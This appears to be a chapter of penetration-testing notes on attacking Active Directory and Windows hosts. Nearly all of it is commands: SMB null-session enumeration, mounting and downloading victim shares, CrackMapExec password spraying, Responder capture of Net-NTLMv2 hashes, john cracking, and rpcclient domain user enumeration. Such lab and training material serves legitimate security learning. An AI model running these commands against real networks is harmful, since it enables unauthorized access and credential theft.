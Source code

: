 # Active Directory & Windows Machines {-}

## Interesting Windows ports {-}

- 88 Kerberos
- 139 NetBIOS session service
- 445 Server Message Block **SMB**
- 389 LDAP
- 1433 ms-sql
- 5985-5986 WinRM

> [!] NOTE: NetBIOS session service facilitates authentication aross a windows workgroup or domain and provides access to resources (such as files and printers)

## SMB connection with smbclient and smbmap {-}

**smbclient** is a tool that allows attacker to enumerate and list the shared resources of a machine that have the smb service on. 
You can start by using smbclient with a Null session by using the `-N` argument

```bash
smbclient -L 10.10.10.10 -N
```

As soon as you have listed those resources you can use **smbmap** to check the access, read or write rights that you have. You can also
specify the Null session by using the `-u 'null'` argument

```bash
smbmap -H 10.10.10.10 -u 'null'
smbmap -H 10.10.10.10 -u " " -p " "
```

As soon as you find a resource that you can access, you can use **smbclient** to connect to it. Again you can use the `-N` argument to tell
smbclient that you want to connect without asking for credentials.

```bash
smbclient //10.10.10.10/<Accessible resource>
```

> [!] NOTE: smbclient don't provide you a shell but a tool. **get filename.txt** allows you to download a resource if you are connected

If you see that you have access to the desired resource, you can mount the shared directory to your attacker machine.

```bash
mkdir /mnt/smbvictim
mount -t cifs "//10.10.10.10/<Accessible resource>" /mnt/smbvictim
```

You can also mount a directory with user credentials in order to get more information

```bash
mount -o user=<username> -t cifs //10.10.10.10/<folder> /mnt/smbvictim/
```

> [!] NOTE: A mounted partition is not a download of victim folders and file. That's only an access pass. Type `unmount /mnt/smbmounted` to close the
> mounted share.

One interesting point with smb is that there is some specified rights at the smb level that can varied. That means that it's not because the
shared resource is on READ ONLY mode that all the folders that this resource contains can not have a write right. You can check if some repository of 
this resource are writable with the **smbcacls** tool. The interesting right that we want to check is the Everyone.

```bash
smbcacls "10.10.10.10/<Accessible resource>" Users/amanda -N
```

The output will look as following:

```r
knitr::include_graphics("images/cacls-read.png")
```

It's interesting to mount the resource in the attacker machine because can do a one liner loop to check multiple folders rights filtering the information
by the Everyone key word.

```bash
cd /mnt/smbvictim/Users
ls -l | awk 'NF{print $NF}' | while read directory; do echo -e "\n[+] Directory $directory; smbcacls "10.10.10.10/<Accessible resource>" Users/$directory -N | grep -i everyone ; done
```

If you find a directory that have writable rights, something that can be intersting to check is that if you create a file in it, is somebody
manipulating it (remove it, writing on it, removing his content etc.). If it's the case, attacker have a way of stolling the hash NTLMv2 with
malicious **scf** file

## Get all files in a smb directory with smbget {-}

Using the mounted option is interessting, but sometimes attacker will find more convenient to download all the shared files in the attacker machine.
For this purpose, you can use the **smbget** utility.

```bash
smbget -R smb://10.10.10.10/<Accessible resource> -U username
```

Also possible for a specific folder inside the resource

```bash
smbget -rR smb://10.10.10.10/<Accessible resource>/directoryA/directoryB -U username
```

## Enumerate machines and check user validity by SAMBA with CME {-}

**CrackMapExec** (a.k.a **CME**) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.

```bash
cme smb 192.168.0.0/24
```

**CME** can also enumerate a single machine,

```bash
cme smb 10.10.10.10
```

If we have credentials of a user, you can use **CME** to check the validity of a user. If the user with the password exists, the tool will
write a red plus sign, if not, a minus sign. And if the user exists and this one have admin priviledges on machines, **CrackMapExec** will
return a red plus sign and you will see a (Pwn3d!) in the result.

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1'
```

You can also check the validity of multiple users with some discovered passwords

```bash
cme smb 10.10.10.10 -u users.txt -p passwords.txt
```

Here, something that can be interesting is to list the shared recourses for this user

```bash
cme smb 10.10.10.10 -u 'user' -p 'password1' --shares
```

## Sniffing traffic for SAMBA Relay with responder {-}

When SAMBA is created, by default SAMBA cert is not signed. That means that by default it's not possible to validate the origin legitimity. 
In this case Attacker can use tools like responder in order to sniff SAMBA communication traffic.

```bash
cd /usr/share/responder
# config file is in Responder.conf
python3 Responder.py -I eth0 -rdw
```

As soon as a connection is launched, you can see the communication. And because the SAMBA is not signed you can then get the **Hash Net-NTLMv2** of users.

```r
knitr::include_graphics("images/ad-hashnetntlmv2.png")
```

What attacker can do with this hash?

1. copy hashes in a file (*hashes*)
1. bruteforce hashes file with john

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt hashes
    ```

## RPC connection with rpcclient {-}

**Remote Procedure Call** aka **RPC** is a network protocol that allows to make calls of precedures on an external computer with an 
application server. This protocol is used in a client-server model in order to ensure the communication between the client, the server and
between possible intermediaries.

In the enumeration phase, attacker can check if it's possible to connect with a null session using the **rpcclient** with the `-U ""` arguments

```bash
rpcclient -U "" 10.10.10.10 -N
```

The connection with a valid user will be done as following

```bash
rpcclient -U "user%password" 10.10.10.10 -c <command>
```

Interesting command to execute with rpcclient are:

```bash
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomusers'
rpcclient -U "user%password" 10.10.10.10 -c 'enumdomgroups'
# get the rid of domain admins -> 0x200 in this example
rpcclient -U "user%password" 10.10.10.10 -c 'querygroupmem 0x200'
# get the rid of the users -> 0x1f4 for example
rpcclient -U "user%password" 10.10.10.10 -c 'queryuser 0x1f4'
```

## Enumerate ldap service with nmap {-}

```bash
locate .nse | grep "ldap"
```

```bash
nmap --script ldap\* 10.10.10.10 -oN ldapScan
```
